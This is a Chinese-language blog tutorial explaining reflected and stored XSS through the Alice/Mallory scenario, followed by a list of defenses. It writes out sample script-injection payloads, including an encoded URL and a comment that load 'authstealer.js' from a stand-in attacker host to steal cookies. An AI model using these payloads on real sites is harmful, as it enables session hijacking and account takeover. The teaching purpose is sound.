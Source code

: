 ```yaml
---
layout: post
---
```


wiki里讲了两个xss攻击的例子. 非持续性xss(Non-persistent)，也称为Reflected xss.(来自陌生人的) 与 持续性(Persistent)攻击。

## Non-persistent

Alice 经常去一个Blob的网站，且Blob的网站允许Alice使用username/password登录和存储一些敏感信息，
当用户登录的时候Blob会将认证凭据存到Cookie中以供client到server端验证身份。

Mallory发现Bob的网站存在reflected xss 漏洞, 过程如下:

* 当在搜索页面，Mallory输入一些词汇并点击提交按钮, 如果找不到结果blob的页面会提示这个词汇 Not found, 此时的页面URL为`http://blobwebsite.com?q=her input term`

* 对于一个正常的搜索，例如搜索`pupples`, 如果该搜索页面未找到的话会提示`pupples not found`, 此时的url为`http://blobwebsite.com?q=pupples`

* 然而，当Mallory提交一个正常的搜索请求，例如`<script type='text/javascript'>alert('xss');</script>`, 出现了下面几个现象: 1. 一个弹窗出现，弹出"xss", 2.伴随着弹窗的同时页面显示`<script type='text/javascript'>alert('xss');</script> not found` 3. 此时的url为`http:blobwebsite.com?q=<script%20type='text/javascript'>alert('xss');</script>`


在发现了存在xss漏洞之后，Mallory手写了一个url: `http:blobwebsite.com?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`, 看起来像一个正常的url，但是decode其中的hex字符之后，真实的url如下:`http:blobwebsite.com?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`。

接着Mallory将该地址通过email的形式发送给一些使用blobwebsite的成员，并且还告诉他们一些诱导性信息，例如:  [点击查看可爱的小狗狗](https://www.google.com/search?q=cute+puppy&tbm=isch&tbo=u&source=univ&sa=X&ved=0ahUKEwjB587hru_TAhUV3GMKHXgJAO4QsAQIIg&biw=1263&bih=703)

当该email被喜欢小狗的alice打开的时候，即使Alice比较有心的查看了url之后恐怕也不会过度起疑。但是当Alice随手点开这条链接之后会看到`pupples not found`以及伴随着的Mallory脚本的执行。(此时便触发了xss攻击行为)。 这时候Mallory的脚本几乎可做任何事情, 包括将Alice的登录凭证Cookie发送给Mallory的服务器。 拿到登录凭证之后Mallory便可以伪装成Alice登录到blobwebsite，并且查看其敏感信息。更加过分一些还可以更改掉Alice的密码，让Alice无法登陆。


xss攻击的预防可以用下面几种方法

* 通过合适的编码进行检查搜索输入中含有的HTML敏感数据，例如`script`,`object`,`embed`,`link`,`iframe`
* web server可以重定向无效的请求。 例如当Alice的请求含有xss的链接后，server端进行检查之后直接重定向到安全页面
* web server可以检测同时登陆行为，并且可以将登陆凭据设置为过期.
* web server检测到同时登陆来自不同ip后将client的session设置为过期
* 网站可以只显示部分信用卡号码(意味敏感信息数据即使登陆后也不能直接查看完整信息，需要二次验证)
* 网站可以在用户更改注册信息时，例如密码，需要再次输入密码。
* 网站可以使用[Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)(内容安全策略) 来指定允许加载的脚本。
* 告诉用户不要随意点击不可信链接
* 设置Cookie为`HttpOnly` 来阻止JavaScript访问Cookie


## Persistent attack

接着上面的例子，Non-persistent需要Mallory发email给注册了Blob网站的用户，受影响的仅限于邮件内用户。这时候Mallory换了一种思路，使用持续性xss来影响更大范围内的用户。

首先Mallory注册了一个Blob网站的账号。

Mallory发现Blob的网站存在一个xss漏洞: 如果你在一个帖子下面留言，那么评论里将显示你输入的任何内容. 如果输入中含有html标签，评论区也会显示相应的标签和运行其中的脚本。

接着Mallory在一个帖子下面发了一条留言`I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">`

当其他人(不只是作者)加载该页面时Mallory的脚本都会被执行，并且偷取他们的Cookie发送到Mallory的服务器。

之后Mallory就可以使用这些登录凭据来做任何事情了。


## 结语

其实xss的种类有很多种，其中原理几乎全部是想尽办法将恶意脚本注入页面内，并且执行攻击者的脚本。
上面的xss防范方法对于很多情况下都适用。
